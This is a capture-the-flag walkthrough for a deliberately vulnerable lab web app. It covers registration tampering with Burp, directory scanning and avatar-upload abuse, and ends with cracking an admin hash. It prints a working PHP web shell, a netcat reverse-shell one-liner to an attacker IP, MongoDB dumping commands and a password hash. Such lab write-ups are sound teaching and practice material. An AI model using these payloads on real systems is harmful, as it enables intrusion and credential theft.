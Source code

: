 ```yaml
---
date: 2025-03-10
categories: [CTF, IML]
title: "IML - Mini CTF: Vulnerable Web App – Ep.1"
tags: ['web exploit']

description: "Mini CTF Vulnerable Web App –-1 - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Mini CTF: Vulnerable Web App – Ep.1

- On the main page, we casn sign up - but the Registration is giving a "Username too long!" error
Even if we give one letter


![image1](../resources/f3962ea2932041bb8298291c972a403f.png)

- In the brief it says that the app is still in development:

![image2](../resources/a39e5ba82b9c41b8ab0402482dd1c2bf.png)

- Open Burp and break the app (took username param out):

![image3](../resources/6039703708924a149b3cf483f2fcb8a6.png)

- We can see the format of the username here - **admin@mywebsite.com**

- So we can create an account using:
name@website.com - It needs the @ and the .com

Use the same name for the email

And a long password

- Login

![image4](../resources/7290a6dcbd2142038dcf860038e50970.png)

- Do a directory scan:
`dirb http://10.102.88.96 /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -c "session=eyJlbWFpbCI6ImFkbWluMkBteXdlYnNpdGUuY29tIn0.ZkxlMA.8rXIHijh614ybDQnm6DKb5ABNO8"`


![image5](../resources/63d473c8b4154fbc95ea8c1f6e651de5.png)

- We can see an uploads folder

- If we look at the Change Avatar feature - we can upload a file:

![image6](../resources/89b12ff7109d4bb6bff31de02b0f7665.png)

- On revshells find the php cmd command and create a **script.php** file:

```html
<html>
<body>
  <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
  </form>
  <pre>
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
  </pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>

```

- Upload that file

- Go to  `http://10.102.88.96/static/uploads/script.php`

![image7](../resources/8f74a9b4fd9c4b96a62b6c0040913d0d.png)

- We have RCE

- Set up listener
- Run a bash rev shell command
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.102.74.132 8881 >/tmp/f
```

![image8](../resources/b2b31ce3cc2b40caa7da056df56c1cc8.png)


![image9](../resources/f180143cee174381a848c1a5031eeb2a.png)

- Admin creds:

![image10](../resources/34502bdd941e4ad099f3fff9cad66ece.png)

- MongoDB is running

```bash
mongo
show databases
use dev
show collections
db.user.find()
```

![image11](../resources/e251a386eac04e2c9553011465c9c8ae.png)

Python Werkzeug
corresponds to:
pbkdf2:sha256:\[ITERATIONS\]\$\[RAW SALT EVEN THOUGH IT LOOKS BASE64\]\$\[HEXDIGEST OF pbkdf2 sha256 hmac\]


- We can use the tool:
<https://github.com/AnataarXVI/Werkzeug-Cracker>

Use admin hash (from admin_details.txt):

pbkdf2:sha256:50000\$mqWZ9okN\$8840ee19b918c135fcf0f639a4c0efd0425fcee6462d1d59d40493e07ed9ab8b